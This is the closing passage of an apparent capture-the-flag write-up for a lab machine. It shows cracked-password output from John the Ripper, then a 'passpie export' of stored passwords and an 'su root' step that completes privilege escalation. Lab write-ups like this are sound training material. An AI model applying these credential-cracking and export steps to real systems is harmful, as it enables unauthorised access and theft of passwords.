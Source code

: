```
1g 0:00:00:08 DONE (2023-02-07 21:31) 0.1226g/s 20.12p/s 20.12c/s 20.12C/s ginger..blink182
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Almost there! Now we just need to run a couple more command line programs to export the passwords into the passpie folder and finish the privilege escalation.

```
jnelson@meta2:~$ touch pass
jnelson@meta2:~$ passpie export pass
Passphrase:
jnelson@meta2:~$ su root
Password:
root@meta2:/home/jnelson#
```

Completed box.
